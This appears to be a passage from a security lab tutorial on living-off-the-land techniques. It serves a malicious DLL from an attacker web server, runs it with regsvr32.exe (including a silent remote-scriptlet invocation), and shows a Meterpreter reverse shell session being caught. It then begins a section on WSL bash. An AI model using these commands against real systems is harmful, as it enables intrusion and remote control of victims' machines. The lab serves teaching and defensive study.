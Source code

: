 
Note that we specified the output type as DLL using the-f argument. Once the malicious DLL file is generated, we need to deliver the payload to the victim  machine. We will do this by using a webserver to serve the DLL file on  our attacking machine as follows,

- **Terminal**

```shell-session
user@machine$ python3 -m http.server 1337
```

From the victim machine, visit the webserver of the attacking machine on port 1337 that we specify. Note that this port can be changed with your choice!

On the victim machine, once the file DLL file is downloaded, we execute it using regsvr32.exe as follows,

- **Command Prompt**

```shell-session
C:\Users\thm> c:\Windows\System32\regsvr32.exe c:\Users\thm\Downloads\live0fftheland.dll
or
C:\Users\thm> c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll
	    
```

With the second option, which is a more advanced command, we instruct the regsvr32.exe to run:

- /s: in silent mode (without showing messages)
- /n: to not call the DLL register server
- /i:: to use another server since we used /n
- /u: to run with unregister method

On the attacking machine, we should receive a reverse shell.

- **Terminal**

```shell-session
msf6 > exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on ATTACKBOX_IP:443 
[*] Sending stage (175174 bytes) to 10.10.159.197 
[*] Meterpreter session 1 opened (ATTACKBOX_IP:443 -> 10.10.159.197:52845 ) at 2022-01-20 05:51:31 -0600
	    
```

Note if we wanted to create a 64-bit DLL version, we need to specify it in the msfvenom command and run it from the victim machine using the 64bits version of regsvr32.exe at C:\Windows\SysWOW64\regsvr32.exe.

### Bourne Again Shell (Bash)

In 2016, Microsoft added support for the Linux environment on Windows 10,11, and Server 2019. This feature is known as Windows Subsystem for Linux ([WSL](https://docs.microsoft.com/en-us/windows/wsl/about)), and it exists in [two WSL versions](https://docs.microsoft.com/en-us/windows/wsl/compare-versions): WSL1 and WSL2. WSL is a Hyper-V virtualized Linux distribution that runs on the operating system, supporting a subset of  the Linux kernel and system calls. This feature is an addon that a user  can install and interact with a Linux distribution. As part of WSL, bash.exe is a Microsoft tool for interacting with the Linux environment. 
